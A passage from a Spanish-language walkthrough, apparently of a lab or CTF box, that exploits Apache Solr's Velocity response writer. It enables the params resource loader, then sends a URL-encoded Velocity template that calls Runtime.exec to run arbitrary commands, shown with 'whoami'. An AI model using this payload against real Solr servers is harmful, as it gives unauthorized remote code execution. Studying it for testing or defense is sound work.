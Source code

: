 ```bash
    "params.resource.loader.enabled":"true"
	}  

}
```

Una ves lanzada la peticion, En la respuesta del servidor obtendremos esto:
```bash
HTTP/1.1 200 OK
Content-Type: text/plain;charset=utf-8
Content-Length: 149

{
  "responseHeader":{
    "status":0,
    "QTime":289},
  "WARNING":"This response format is experimental.  It is likely to change in the future."}
```

Esto indica que hemos logrado setear el valor en **true** de manera exitosa
Para confirmarlo regresamos a la peticion anterior y reenviamos de nuevo, para despues volver a aplicar el filtro veremso que esta seteado a **true**
```json
"velocity":{
        "startup":"lazy",
        "name":"velocity",
        "class":"solr.VelocityResponseWriter",
        "template.base.dir":"",
        "solr.resource.loader.enabled":"true",
        "params.resource.loader.enabled":"true"},
      "xslt":{
```

Logramos nuestro objetivo, que es manipular manualmente el valor de ese parametro, Y ahora si que podemos abusar de este paremetro
Desde **burpsuite** ejecutamos comandos
En **COMMAND** es donde inyectamos nuestro comando
```bash
# Comandos para explotación
GET /solr/0xDojo/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27COMMAND%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
```

Ahora que tenemos el control totao ejecutamos el comando whoami para saber como quien se esta ejecutando el comando:
```bash
GET /solr/0xDojo/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
```
